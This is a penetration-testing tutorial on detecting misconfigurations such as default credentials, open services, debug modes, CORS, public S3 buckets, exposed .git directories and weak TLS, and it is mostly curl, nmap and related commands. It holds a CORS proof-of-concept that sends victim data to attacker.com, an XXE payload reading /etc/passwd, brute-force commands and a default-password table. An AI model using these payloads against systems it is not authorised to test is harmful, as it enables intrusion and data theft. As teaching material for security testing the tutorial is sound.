

# Misconfiguration Detection
> **Difficulty:** Beginner–Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [What Are Misconfigurations?](#what-are-misconfigurations)
2. [Misconfiguration Categories](#misconfiguration-categories)
3. [Default Credentials](#default-credentials)
4. [Unnecessary Open Ports and Services](#unnecessary-open-ports-and-services)
5. [Directory Listing Enabled](#directory-listing-enabled)
6. [Debug Mode in Production](#debug-mode-in-production)
7. [Verbose Error Messages](#verbose-error-messages)
8. [Insecure HTTP Headers](#insecure-http-headers)
9. [CORS Misconfiguration](#cors-misconfiguration)
10. [S3 Bucket Public Access](#s3-bucket-public-access)
11. [Exposed Git Directories](#exposed-git-directories)
12. [Anonymous FTP Access](#anonymous-ftp-access)
13. [Unpatched Services](#unpatched-services)
14. [TLS/SSL Misconfigurations](#tlsssl-misconfigurations)
15. [Linux Hardening with Lynis](#linux-hardening-with-lynis)
16. [Complete Misconfiguration Checklist](#complete-misconfiguration-checklist)

---

## What Are Misconfigurations?

**Security misconfigurations** are the most prevalent vulnerability category in the OWASP Top 10 (A05:2021). Unlike software bugs that require a vendor to release a patch, misconfigurations are entirely preventable by the organization — they arise from:

- **Default settings** that were never changed
- **Unnecessary features** that were enabled without purpose
- **Missing hardening steps** in the deployment process
- **Incomplete access controls** applied inconsistently
- **Lack of security review** in infrastructure changes

> **Note:** The 2021 Verizon Data Breach Investigations Report found that misconfiguration was a contributing factor in 13% of breaches. The OWASP Top 10 elevated Security Misconfiguration to position 5, with 90% of applications tested showing some form of misconfiguration.

Misconfigurations are attractive targets for attackers because:
1. They typically require no zero-day knowledge
2. Exploitation tools are freely available
3. Many persist for months or years undetected
4. They are often present on the highest-value systems

---

## Misconfiguration Categories



---

## Default Credentials

**Default credentials** are pre-configured usernames and passwords that come with hardware, software, or services out of the box. Administrators who fail to change them leave wide-open doors.

### Common Default Credentials

| Service/Product | Default Username | Default Password |
|----------------|-----------------|-----------------|
| Apache Tomcat Manager | admin / tomcat | admin / tomcat / s3cret |
| MySQL | root | (empty) |
| PostgreSQL | postgres | postgres |
| MongoDB | (none required) | (no auth by default) |
| Redis | (none required) | (no auth by default) |
| Elasticsearch | elastic | changeme |
| Kibana | elastic | changeme |
| Jenkins | admin | admin / password |
| Grafana | admin | admin |
| JIRA | admin | admin |
| Confluence | admin | admin |
| phpMyAdmin | root | (empty) |
| Cisco IOS | cisco / enable | cisco / cisco |
| Ubiquiti UniFi | ubnt | ubnt |
| Fortinet FortiGate | admin | (empty) |
| VMware vCenter | administrator@vsphere.local | vmware |
| Netgear routers | admin | password |
| D-Link routers | admin | (empty) |

### Detection Commands

```bash
# Test web application defaults with curl
curl -s -u admin:admin https://target.com/manager/html -o /dev/null -w "%{http_code}\n"
curl -s -u tomcat:tomcat https://target.com/manager/html -o /dev/null -w "%{http_code}\n"
curl -s -u tomcat:s3cret https://target.com/manager/html -o /dev/null -w "%{http_code}\n"

# Test MySQL default credentials
mysql -h 192.168.1.100 -u root -p"" -e "SELECT user();" 2>/dev/null

# Test PostgreSQL
psql -h 192.168.1.100 -U postgres -c "SELECT version();" 2>/dev/null

# Test Redis (no auth default)
redis-cli -h 192.168.1.100 ping
redis-cli -h 192.168.1.100 INFO server | head -10

# Test MongoDB (no auth default)
mongo --host 192.168.1.100 --eval "db.adminCommand({listDatabases:1})" 2>/dev/null

# Test Elasticsearch
curl -s http://192.168.1.100:9200/_cat/indices?v

# Test Jenkins
curl -s http://target.com:8080/api/json | python3 -m json.tool

# Automated default credential testing with Medusa
medusa -h target.com -U /usr/share/wordlists/default-users.txt \
       -P /usr/share/wordlists/default-passwords.txt \
       -M ssh -t 5

# Using Hydra for SSH default creds
hydra -L /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt \
      -P /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt \
      -t 4 ssh://target.com
```

### Default Credential Databases

```bash
# Search SecLists for default credential lists
ls /usr/share/wordlists/SecLists/Passwords/Default-Credentials/

# Product-specific lists available:
# apache-tomcat-default-passwords.txt
# oracle-default-passwords.txt  
# cisco-enable.txt
# fortinet-default.txt
# ssh-betterdefaultpasslist.txt

# Online resource: https://www.cirt.net/passwords
# Online resource: https://github.com/ihebski/DefaultCreds-cheat-sheet
```

---

## Unnecessary Open Ports and Services

Every open port is a potential attack vector. Services that are running but not needed expand the attack surface without justification.

### Port Scanning and Service Detection

```bash
# Full TCP port scan with service/version detection
nmap -sV -sC -p- --open -T4 -oA full-scan target.com

# Quick top 1000 ports scan
nmap -sV --open -T4 target.com

# UDP scan (often missed, important for SNMP, DNS, TFTP)
sudo nmap -sU --top-ports 200 target.com

# Scan for commonly dangerous ports
nmap -p 21,22,23,25,53,80,443,445,1433,1521,3306,3389,5432,5900,6379,8080,8443,9200,27017 \
     -sV target.com

# Check for Telnet (insecure remote access)
nmap -p 23 --script telnet-encryption target.com

# Check for SNMP (often with default community string "public")
nmap -sU -p 161 --script snmp-info target.com
snmpwalk -c public -v1 target.com 1.3.6.1.2.1.1 2>/dev/null

# Check for exposed RDP
nmap -p 3389 --script rdp-enum-encryption target.com
```

### Identifying Unnecessary Services

```bash
# On Linux target (post-exploitation or with credentials)
ss -tlnp          # TCP listening ports with process names
ss -ulnp          # UDP listening ports
systemctl list-units --type=service --state=running

# Check what's exposed to the internet vs just localhost
ss -tlnp | awk '$4 !~ /^127/ && $4 !~ /^\*.*loopback/'

# Windows (post-exploitation)
netstat -ano | findstr LISTENING
Get-Service | Where-Object {$_.Status -eq "Running"} | Select-Object Name, DisplayName
```

### Risk Assessment by Port

| Port | Service | Risk if Exposed |
|------|---------|-----------------|
| 21 | FTP | Cleartext credentials, anonymous access |
| 22 | SSH | Brute force, weak key exchange |
| 23 | Telnet | Cleartext credentials — critical |
| 25 | SMTP | Open relay, spam, enumeration |
| 161 | SNMP | Information disclosure, default community strings |
| 445 | SMB | EternalBlue, password attacks |
| 1433 | MSSQL | SQL injection pivot, xp_cmdshell |
| 3306 | MySQL | Default root, data extraction |
| 3389 | RDP | BlueKeep, brute force |
| 5432 | PostgreSQL | Default postgres user, COPY TO/FROM |
| 5900 | VNC | No auth by default, screen capture |
| 6379 | Redis | Unauthenticated data access, SSRF target |
| 9200 | Elasticsearch | Unauthenticated API, data dump |
| 27017 | MongoDB | No auth by default, full data access |

> **Warning:** Exposing Redis (6379), MongoDB (27017), or Elasticsearch (9200) directly to the internet without authentication is a **Critical** finding. These services are indexed by Shodan and are actively targeted by ransomware campaigns.

---

## Directory Listing Enabled

**Directory listing** (also called directory indexing) displays the contents of a web directory when no index file exists. This reveals the application structure, source code backups, configuration files, and other sensitive resources.

### Detection

```bash
# Test for directory listing
curl -s https://target.com/images/ | grep -i "Index of"
curl -s https://target.com/uploads/ | grep -i "<title>Index of"
curl -s https://target.com/backup/ | grep -i "parent directory"

# More thorough check with gobuster
gobuster dir -u https://target.com \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -o dirs.txt \
  --exclude-length 0

# Check interesting directories
for dir in backup backups old archive logs temp tmp config configs uploads admin; do
  CODE=$(curl -s -o /dev/null -w "%{http_code}" "https://target.com/$dir/")
  echo "$dir: $CODE"
done

# Check if Apache/Nginx has indexing enabled
curl -v https://target.com/ 2>&1 | grep -i "server:"
# Apache with mod_autoindex enabled will show listings
```

### Example Vulnerable Response

```html
<!-- What you see when directory listing is on -->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /backup</title>
 </head>
 <body>
<h1>Index of /backup</h1>
  <table>
   <tr><th></th><th>Name</th><th>Last modified</th></tr>
   <tr><td></td><td><a href="../">Parent Directory</a></td></tr>
   <tr><td></td><td><a href="database_backup_2024.sql">database_backup_2024.sql</a></td><td>2024-01-15 03:00</td></tr>
   <tr><td></td><td><a href="config.php.bak">config.php.bak</a></td><td>2024-01-10 18:22</td></tr>
  </table>
</body></html>
```

---

## Debug Mode in Production

**Debug mode** in web frameworks exposes detailed application internals: stack traces, local variable values, database queries, source code snippets, and framework internals. In production, this is a critical information disclosure vulnerability.

### Indicators by Framework

```bash
# Django debug mode — triggers with invalid URL
curl -s https://target.com/deliberately-invalid-url-xyz | grep -i "django"
curl -s https://target.com/deliberately-invalid-url-xyz | grep -i "debug"

# PHP display_errors
curl -s "https://target.com/page?id='" | grep -i "Warning\|Notice\|Fatal error"

# Laravel debug mode — triggers with exception
curl -s "https://target.com/?" | grep -i "laravel\|whoops\|APP_DEBUG"

# Express.js (Node.js) — look for stack traces
curl -s "https://target.com/api/nonexistent" | grep -i "at Object\|Error:\|node_modules"

# Spring Boot actuator (should not be public)
curl -s https://target.com/actuator | python3 -m json.tool 2>/dev/null
curl -s https://target.com/actuator/env    # Environment variables!
curl -s https://target.com/actuator/heapdump  # JVM heap dump

# Ruby on Rails debug
curl -s "https://target.com/" -H "X-Forwarded-Host: evil.com" | grep -i "console\|debug"
```

### What Debug Mode Exposes

| Framework | Debug Information Leaked |
|-----------|-------------------------|
| **Django** | Full stack trace, local variables, SQL queries, settings values |
| **Laravel** | Stack trace, config values, class paths, database queries |
| **Spring Boot Actuator** | Environment variables, JVM info, beans, config maps |
| **Flask** | Interactive debugger console (allows RCE!) |
| **Rails** | Stack traces, request parameters, session contents |
| **PHP** | File paths, SQL errors, variable dumps |

> **Warning:** Flask's interactive debugger (`FLASK_DEBUG=1`) exposes a web-based Python console. If accessible, this is an instant Remote Code Execution vulnerability. Always check `/console` on Flask applications.

```bash
# Test for Flask debug console
curl -s https://target.com/console | grep -i "Werkzeug\|Interactive Console"
```

---

## Verbose Error Messages

Verbose error messages reveal internal application details such as database structure, server paths, technology stack, and SQL query syntax.

### How to Trigger Error Messages

```bash
# SQL injection syntax error test
curl -s "https://target.com/item?id='"

# Type mismatch
curl -s "https://target.com/item?id=abc"  # if expecting integer

# Oversized input
python3 -c "print('A'*5000)" | xargs -I {} curl -s "https://target.com/search?q={}"

# Invalid JSON body
curl -s -X POST https://target.com/api/data \
  -H "Content-Type: application/json" \
  -d '{"key": invalid_json}'

# XML parsing error (if XML endpoint exists)
curl -s -X POST https://target.com/api/data \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>'

# HTTP headers manipulation
curl -s https://target.com/api -H "Accept: application/xml" -H "Content-Type: invalid/type"
```

### What to Look For in Responses

```
# Dangerous: MySQL error with query structure
Error 1064 (42000): You have an error in your SQL syntax near '''' at line 1
Query: SELECT * FROM products WHERE id = '''

# Dangerous: File path in PHP error
Warning: include(/var/www/html/includes/header.php): failed to open stream

# Dangerous: Stack trace with internal IPs
at com.company.app.db.ConnectionPool.getConnection(ConnectionPool.java:42)
Connection refused: jdbc:mysql://10.0.1.100:3306/productdb

# Dangerous: Version disclosure in headers
X-Powered-By: PHP/7.4.3
Server: Apache/2.4.41 (Ubuntu) OpenSSL/1.1.1f
X-AspNet-Version: 4.0.30319
```

---

## Insecure HTTP Headers

HTTP security headers instruct browsers on how to handle the application's content. Missing or misconfigured headers enable attacks like XSS, clickjacking, MIME sniffing, and protocol downgrade.

### Checking Headers with curl

```bash
# Check all response headers at once
curl -s -I https://target.com/

# Check specific security headers
curl -s -I https://target.com/ | grep -iE \
  "Strict-Transport-Security|Content-Security-Policy|X-Frame-Options|\
X-Content-Type-Options|Referrer-Policy|Permissions-Policy|X-XSS-Protection"

# Check for information-disclosing headers
curl -s -I https://target.com/ | grep -iE \
  "Server:|X-Powered-By:|X-AspNet-Version:|X-Generator:"

# Automated header analysis
docker run --rm shieldon/security-headers https://target.com

# securityheaders.com API
curl -s "https://securityheaders.com/?q=https://target.com&followRedirects=on" \
  | grep -i "grade\|score"
```

### Header Security Reference

| Header | Purpose | Recommended Value |
|--------|---------|-------------------|
| `Strict-Transport-Security` | Force HTTPS | `max-age=31536000; includeSubDomains; preload` |
| `Content-Security-Policy` | Prevent XSS and injection | `default-src 'self'; script-src 'self'` (app-specific) |
| `X-Frame-Options` | Prevent clickjacking | `DENY` or `SAMEORIGIN` |
| `X-Content-Type-Options` | Prevent MIME sniffing | `nosniff` |
| `Referrer-Policy` | Control referrer info | `strict-origin-when-cross-origin` |
| `Permissions-Policy` | Restrict browser features | `camera=(), microphone=(), geolocation=()` |
| `X-XSS-Protection` | Legacy XSS filter (deprecated) | `0` (disable — CSP is better) |
| `Cache-Control` | Control caching of sensitive pages | `no-store` on auth/sensitive pages |

### Checking HSTS Preload Status

```bash
# Check HSTS header
curl -s -I https://target.com/ | grep -i "Strict-Transport-Security"

# Check if site is on HSTS preload list
curl -s "https://hstspreload.org/api/v2/status?domain=target.com" | python3 -m json.tool

# Check HSTS in Chrome preload list
# https://chromium.googlesource.com/chromium/src/+/refs/heads/main/net/http/transport_security_state_static.json
grep '"target.com"' transport_security_state_static.json
```

---

## CORS Misconfiguration

**CORS (Cross-Origin Resource Sharing)** misconfigurations allow malicious websites to read responses from authenticated requests to the API, leading to credential theft and account takeover.

### Testing CORS with curl

```bash
# Basic CORS test — send Origin header and check response
curl -s -I -X GET https://target.com/api/user/profile \
  -H "Origin: https://evil.com" \
  -H "Cookie: session=YOUR_SESSION"

# Look for in response:
# Access-Control-Allow-Origin: https://evil.com   ← VULNERABLE (reflects origin)
# Access-Control-Allow-Origin: *                  ← OK for public APIs, dangerous with credentials
# Access-Control-Allow-Credentials: true          ← Combined with above = Critical

# Test null origin (common bypass)
curl -s -I https://target.com/api/data \
  -H "Origin: null" \
  -H "Cookie: session=YOUR_SESSION"
# If Access-Control-Allow-Origin: null → VULNERABLE

# Test subdomain trust
curl -s -I https://target.com/api/data \
  -H "Origin: https://evil.target.com" \
  -H "Cookie: session=YOUR_SESSION"
# If subdomain is reflected → check for subdomain takeover opportunity

# Test pre-flight (OPTIONS) CORS behavior
curl -s -X OPTIONS https://target.com/api/data \
  -H "Origin: https://evil.com" \
  -H "Access-Control-Request-Method: GET" \
  -H "Access-Control-Request-Headers: Authorization" \
  -v 2>&1 | grep -i "access-control"
```

### CORS Vulnerability Impact

```javascript
// Proof of Concept: CORS with credentials exploitation
// If Access-Control-Allow-Origin: attacker.com AND Access-Control-Allow-Credentials: true
// Host this on attacker.com:

fetch('https://target.com/api/user/profile', {
  method: 'GET',
  credentials: 'include',   // Send victim's cookies
  headers: {'Content-Type': 'application/json'}
})
.then(response => response.json())
.then(data => {
  // Send victim's data to attacker's server
  fetch('https://attacker.com/log?data=' + JSON.stringify(data));
});
```

> **Warning:** A `Access-Control-Allow-Origin` that reflects the request's `Origin` combined with `Access-Control-Allow-Credentials: true` is a **Critical** vulnerability that allows complete account data theft via any site the victim visits.

---

## S3 Bucket Public Access

AWS S3 buckets can be misconfigured to allow public read or write access, exposing sensitive data or enabling attackers to host malicious content.

### Discovering Bucket Names

```bash
# Common naming conventions to guess
TARGET="targetcorp"
for name in $TARGET ${TARGET}-backup ${TARGET}-dev ${TARGET}-prod \
            ${TARGET}-data ${TARGET}-uploads ${TARGET}-assets \
            ${TARGET}-logs ${TARGET}-config backup-$TARGET; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" "https://$name.s3.amazonaws.com/")
  echo "$name.s3.amazonaws.com: $STATUS"
done

# Use S3Scanner for bulk checking
pip3 install s3scanner
s3scanner scan --buckets-file bucket-names.txt

# Use AWS CLI (if credentials available)
aws s3 ls s3://target-bucket-name --no-sign-request
```

### Testing Bucket Access

```bash
# Check if bucket is public (no credentials)
aws s3 ls s3://target-bucket --no-sign-request

# Try to list bucket contents
aws s3 ls s3://target-bucket/ --no-sign-request --recursive

# Try to download a file
aws s3 cp s3://target-bucket/sensitive-data.csv . --no-sign-request

# Test for public write access
echo "pentest-test-file" > /tmp/test.txt
aws s3 cp /tmp/test.txt s3://target-bucket/pentest-test.txt --no-sign-request
# If successful: CRITICAL - public write access
# Clean up immediately:
aws s3 rm s3://target-bucket/pentest-test.txt --no-sign-request

# Check bucket ACL (requires authenticated credentials)
aws s3api get-bucket-acl --bucket target-bucket

# Check bucket policy
aws s3api get-bucket-policy --bucket target-bucket | python3 -m json.tool
```

### Checking S3 Security Configuration

```bash
# Check Block Public Access settings (should all be true)
aws s3api get-public-access-block --bucket target-bucket

# Expected response:
# {
#   "PublicAccessBlockConfiguration": {
#     "BlockPublicAcls": true,
#     "IgnorePublicAcls": true,
#     "BlockPublicPolicy": true,
#     "RestrictPublicBuckets": true
#   }
# }

# Check for server-side encryption
aws s3api get-bucket-encryption --bucket target-bucket

# Check bucket versioning
aws s3api get-bucket-versioning --bucket target-bucket
```

---

## Exposed Git Directories

A publicly accessible `.git` directory allows an attacker to reconstruct the entire source code repository, including hardcoded secrets, credentials, API keys, and historical sensitive data.

### Detection

```bash
# Direct check
curl -s https://target.com/.git/config
# If response contains [core] → VULNERABLE

curl -s https://target.com/.git/HEAD
# Should return 404; if returns "ref: refs/heads/main" → VULNERABLE

# Test multiple common git files
for path in ".git/config" ".git/HEAD" ".git/COMMIT_EDITMSG" \
            ".git/refs/heads/main" ".git/logs/HEAD"; do
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" "https://target.com/$path")
  echo "$path: $STATUS"
done

# Use nikto to check automatically
nikto -h https://target.com | grep -i ".git"

# Nuclei template for git exposure
nuclei -u https://target.com -id git-config-exposure
```

### Source Code Extraction with git-dumper

```bash
# Install git-dumper
pip3 install git-dumper

# Dump entire repository
git-dumper https://target.com/.git/ /tmp/target-git-dump/

# Analyze dumped repo for secrets
cd /tmp/target-git-dump/

# Search for credentials in current code
grep -r "password\|secret\|api_key\|token\|credential" . \
  --include="*.php" --include="*.py" --include="*.js" --include="*.env" \
  | grep -v ".git/"

# Search git history for secrets (secrets removed from code but in history)
git log --all --full-history -- "**/*.env" "**/*.config"
git show <commit_hash>:path/to/sensitive/file

# Use truffleHog to scan git history for secrets
trufflehog git file:///tmp/target-git-dump/ --json
```

> **Warning:** Always check git history, not just the current code. Developers frequently commit secrets, notice the mistake, and make a "remove credentials" commit. The original commit is still in `git log`. This is how many API key leaks are found.

---

## Anonymous FTP Access

**Anonymous FTP** allows any user to authenticate with the username `anonymous` and any string as the password. While intended for public file distribution, it is frequently misconfigured to expose sensitive directories.

### Testing Anonymous FTP

```bash
# Basic test with nmap
nmap -p 21 --script ftp-anon target.com

# Sample output:
# | ftp-anon: Anonymous FTP login allowed (FTP code 230)
# | -rw-r--r--   1 ftp      ftp          8223 Jun 10 2024 readme.txt
# | drwxr-xr-x   2 ftp      ftp          4096 Jun 10 2024 pub

# Manual test with ftp client
ftp target.com 21
# Username: anonymous
# Password: anything@example.com

ftp> ls -la
ftp> cd /pub
ftp> ls
ftp> get interesting-file.txt
ftp> bye

# Using curl (supports anonymous FTP)
curl -s ftp://target.com/ --user anonymous:anonymous
curl -s ftp://target.com/pub/ --user anonymous:anything@test.com

# Check for writable FTP (can upload malicious files)
echo "test" > /tmp/test.txt
curl -s -T /tmp/test.txt ftp://target.com/pub/test.txt --user anonymous:test
# If successful: HIGH - anonymous write access to FTP
```

### FTP Security Checks

```bash
# Check if FTP supports TLS (FTPS)
nmap -p 21 --script ftp-syst,ftp-bounce,ftp-brute target.com

# Check for FTP bounce attack
nmap -p 21 --script ftp-bounce --script-args ftp-bounce.checkhost=target.com target.com

# Verify if passive mode is supported (required through firewalls)
curl -s --ftp-pasv ftp://target.com/ --user anonymous:test
```

---

## Unpatched Services

Unpatched services are running software versions with known, publicly disclosed vulnerabilities. Identifying and correlating service versions to CVEs is a core part of misconfiguration detection.

### Version Detection and CVE Correlation

```bash
# Full version fingerprinting
nmap -sV --version-intensity 9 target.com -p 21,22,25,80,443,445,3306,3389

# Focus on banner grabbing
nmap -sV --script banner target.com

# Check OpenSSH version (many CVEs by version)
ssh -V 2>&1; echo ""
ssh target.com -o ConnectTimeout=5 2>&1 | head -5

# Check Apache version
curl -s -I https://target.com/ | grep -i "Server:"
# Apache/2.4.49 → CVE-2021-41773 (path traversal + RCE)
# Apache/2.4.50 → CVE-2021-42013 (bypass for above)

# Check OpenSSL version
openssl s_client -connect target.com:443 </dev/null 2>&1 | grep "Protocol\|Cipher\|Server"

# Check PHP version
curl -s https://target.com/ -I | grep "X-Powered-By"
curl -s https://target.com/phpinfo.php | grep "PHP Version"

# Search for CVEs based on detected version
searchsploit "Apache 2.4.49"
searchsploit "OpenSSH 8.0"
```

### Automated Vulnerability Correlation

```bash
# Use nmap with vuln scripts
nmap --script vuln target.com -p 21,22,80,443,445

# Use vulners script for version-based CVE lookup
nmap -sV --script vulners target.com

# Sample vulners output:
# | vulners:
# |   cpe:/a:openssh:openssh:7.4:
# |       CVE-2018-15473    5.0     https://vulners.com/cve/CVE-2018-15473
# |       CVE-2017-15906    5.0     https://vulners.com/cve/CVE-2017-15906
```

---

## TLS/SSL Misconfigurations

TLS misconfigurations expose encrypted connections to downgrade attacks, cipher weaknesses, and certificate issues.

### testssl.sh — Comprehensive TLS Testing

```bash
# Download testssl.sh
git clone https://github.com/drwetter/testssl.sh.git
cd testssl.sh

# Full TLS analysis
./testssl.sh https://target.com

# Check specific issues
./testssl.sh --protocols target.com           # Protocol versions (SSLv2, SSLv3, TLS1.0, etc.)
./testssl.sh --ciphers target.com             # Cipher suites
./testssl.sh --server-defaults target.com    # Cert info, chain
./testssl.sh --heartbleed target.com         # CVE-2014-0160
./testssl.sh --beast target.com              # CVE-2011-3389
./testssl.sh --poodle target.com             # CVE-2014-3566
./testssl.sh --robot target.com              # CVE-2017-13099
./testssl.sh --drown target.com              # CVE-2016-0800

# Generate HTML report
./testssl.sh --htmlfile tls-report.html https://target.com

# Grade-based output (similar to SSL Labs)
./testssl.sh --rating https://target.com
```

### TLS Check with OpenSSL

```bash
# Test for deprecated TLS 1.0
openssl s_client -connect target.com:443 -tls1 2>&1 | grep -i "handshake\|failure"

# Test for SSLv3 (should fail on modern servers)
openssl s_client -connect target.com:443 -ssl3 2>&1 | grep -i "handshake\|failure"

# Check certificate expiry
echo | openssl s_client -connect target.com:443 -servername target.com 2>/dev/null \
  | openssl x509 -noout -dates

# Check for self-signed certificate
echo | openssl s_client -connect target.com:443 2>/dev/null \
  | openssl x509 -noout -issuer -subject
```

---

## Linux Hardening with Lynis

**Lynis** is an open-source security auditing tool for Linux and Unix-based systems that performs hundreds of hardening checks.

```bash
# Install Lynis
sudo apt install lynis
# Or from source:
git clone https://github.com/CISOfy/lynis && cd lynis

# Run a full audit
sudo lynis audit system

# Run only specific categories
sudo lynis audit system --tests-from-group authentication
sudo lynis audit system --tests-from-group networking
sudo lynis audit system --tests-from-group filesystems

# Pentest mode (less interactive)
sudo lynis audit system --pentest

# Generate a report
sudo lynis audit system --report-file /tmp/lynis-report.txt

# Sample findings to look for:
# [WARNING] /etc/sudoers: ALL=(ALL:ALL) NOPASSWD: ALL
# [WARNING] World-writable directory /tmp/shared
# [WARNING] PAM: password strength not configured
# [SUGGESTION] Disable root SSH login
```

---

## Complete Misconfiguration Checklist

| # | Check | Test Command | Risk |
|---|-------|-------------|------|
| 1 | Default web credentials | `curl -u admin:admin https://target/admin` | Critical |
| 2 | Anonymous FTP | `nmap -p 21 --script ftp-anon target` | High |
| 3 | Directory listing | `curl https://target/backup/` — look for `Index of` | High |
| 4 | Open Redis (no auth) | `redis-cli -h target ping` | Critical |
| 5 | Open MongoDB | `mongo --host target --eval "db.adminCommand({listDatabases:1})"` | Critical |
| 6 | Exposed .git directory | `curl https://target/.git/config` | High |
| 7 | S3 bucket public read | `aws s3 ls s3://bucket --no-sign-request` | High |
| 8 | Missing HSTS | `curl -I https://target` — check for `Strict-Transport-Security` | Medium |
| 9 | Missing CSP | `curl -I https://target` — check for `Content-Security-Policy` | Medium |
| 10 | CORS wildcard + credentials | `curl -H "Origin: evil.com" https://target/api` | Critical |
| 11 | PHP display_errors | `curl "https://target?id='"` — look for `Warning:` | Medium |
| 12 | Debug mode (Django) | `curl https://target/invalid-url` — look for Django error page | High |
| 13 | Spring Boot actuator | `curl https://target/actuator/env` | High |
| 14 | Clickjacking (X-Frame-Options) | `curl -I https://target` — check header | Low |
| 15 | SSL/TLS version | `./testssl.sh --protocols target` — check for TLS1.0/SSLv3 | High |
| 16 | Self-signed cert | `openssl s_client -connect target:443` | Low |
| 17 | SNMP community string | `snmpwalk -c public -v1 target 1.3.6.1.2.1.1` | High |
| 18 | Telnet service | `nmap -p 23 target` | Critical |
| 19 | Unauthenticated SMB | `nmap -p 445 --script smb-security-mode target` | High |
| 20 | phpinfo() exposed | `curl https://target/phpinfo.php` | Medium |
| 21 | Elasticsearch open | `curl http://target:9200/_cat/indices` | Critical |
| 22 | HTTP PUT/DELETE enabled | `curl -X OPTIONS https://target -I` — check Allow header | High |
| 23 | VNC without password | `nmap -p 5900 --script vnc-info target` | Critical |
| 24 | X-Content-Type-Options | `curl -I https://target` — check header | Low |
| 25 | Unpatched services | `nmap -sV --script vulners target` | Variable |
